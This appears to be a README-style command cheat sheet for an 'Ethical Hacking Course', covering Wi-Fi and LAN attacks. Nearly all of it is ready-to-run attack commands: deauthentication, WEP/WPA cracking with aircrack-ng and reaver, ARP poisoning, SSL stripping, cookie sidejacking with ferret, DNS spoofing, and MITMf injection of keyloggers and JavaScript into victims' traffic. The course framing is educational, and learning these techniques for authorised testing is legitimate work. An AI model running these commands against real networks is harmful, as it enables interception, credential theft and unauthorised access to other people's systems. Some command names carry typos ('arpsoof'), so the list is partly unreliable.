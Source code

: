 # Ethical Hacking Course
Here are the commands that will be used in the course
# Network
## Change MAC Address
* Get the interface down
  * `ifconfig wlan0 down`
* Use macchanger
  * `macchanger --random wlan0`
* Get the interface up
  * `ifconfig wlan0 up`
## Change Wireless Card Mode
### Method 1
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Stop Monitor Mode
  * `airmon-ng stop wlan0mon`
### Method 2
* Get the interface down
  * `ifconfig wlan0 down`
* Change Mode
  * `ifconfig wlan0 mode monitor`
* Get the interface up
  * `ifconfig wlan0 up`
### Method 3
* Get the interface down
  * `ifconfig wlan0 down`
* Kill Process
  * `airmon-ng check kill`
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Restart Network Manager
  * `service NetworkManager restart`
## Packet Sniffing
* Start Sniffing
  * `airodump-ng wlan0mon`
* Sniff In A Specific Network
  * `airodump-ng --channel <network channel> --bssid <network bssid> --write <file-name> wlan0mon`
* Deauth Attacks
  * `aireplay-ng --deauth <num-of-packets> -a <network bssid> -c <target bssid> wlan0mon`
## Crack WEP
### Busy Network
* Start airodump-ng in the target
* Crack
  * `aircrack-ng <network-file>`
### NOT Busy Network
* Fake Auth
  * `aireplay-ng --fakeauth 0 -a <network bssid> -h <your bssid || MAC> wlan0mon`
* Packet Injection
  * `aireplay-ng --arpreplay -b <network bssid> -h <your bssid || MAC> wlan0mon`
## Crack WPA/WPA2
### With WPS
* Check if the network has WPS
  * `wash -i wlan0mon`
* Attack
  * `reaver -b <network bssid> -c <network channel> -i wlan0mon`
### Without WPS
* Start airodump-ng in the target
* Deauth a client to capture the WPA Hanshake
* Crack the Key
  * `aircrack-ng <handshake-file> -w <word-list>`
### Create a Wordlist
`crunch <min-length> <max-length> <characters> -o <file-name> -t <pattern>`
## Information Gathering
After authenticating to a network you gather information about it.
### Using Netdiscover
* `netdiscover -i wlan0 -r <network internal IP>.1/24`
### Using Autoscan
* download [Autoscan](http://autoscan-network.com/download)
* add 32bit compatibility `dpkg --add-architecture i386`
* update `apt-get update`
* download and install library `apt-get install libc6:i386`
* install Autoscan in the terminal running `./<downaloaded file>`
* run Autoscan
### Using Nmap
* run `zenmap`
* in Target put `<network internal IP>.1/24`
* play arround with Profile
## Man In The Middle (MITM) Atacks
### ARP Poisoning Using arpspoof
* Tell the target client that I am the router
  * `arpsoof -i wlan0 -t <target client IP> <router IP>`
* Tell the router that I am the target client
  * `arpsoof -i wlan0 -t <router IP> <target client IP>`
* Enable IP forward to allow packets to flow trough my device without being dropped
  * `echo 1 > /proc/sys/net/ipv4/ip_forward`
### ARP Poisoning Using MITMf
* Tell the target client that I am router
  * `mitmf --arp --spoof --gateway <router IP> --target <target client IP> -i wlan0`

This way you can see all the post request made by the target client.

To bypass HTTPS request use SSLstrip to downgrade HTTPS to an HTTP request.
### Session Hijacking
If the user clicks on the "remember me" button a cookie is made in the browser. So we sniff the cookies and inject them to our browser.
* Install Ferret
  * `apt-get install ferret-sidejack`
* Become the MITM
* Capture Cookies
  * `ferret -i wlan0`
* Web GUI to see the cookies and inject them into my browser
  * `hamster`
### DNS Spoofing
* Start Apache Server
  * `service apache2 start`
  * The content of the page is in `/var/www/html`
* Edit DNS settings
  * `leafpad /etc/mitmf/mitmf.conf`
  * Edit the `A` record, that is responsible for translate names to IP adresses
* Become the MITM
  * `mitmf --arp --spoof --gateway <router IP> --target <target client IP> -i wlan0 --dns`
### Capture Screen & Injecting Keylogger
* Capture Screen
  * `mitmf --arp --spoof --gateway <router IP> --target <target client IP> -i wlan0 --screen`
* Injecting Keylogger
  * `mitmf --arp --spoof --gateway <router IP> --target <target client IP> -i wlan0 --jskeylogger`
### Code Injection
* Inject JS
  * `mitmf --arp --spoof --gateway <router IP> --target <target client IP> -i wlan0 --inject --js-payload "alert('hello from hacker')"`
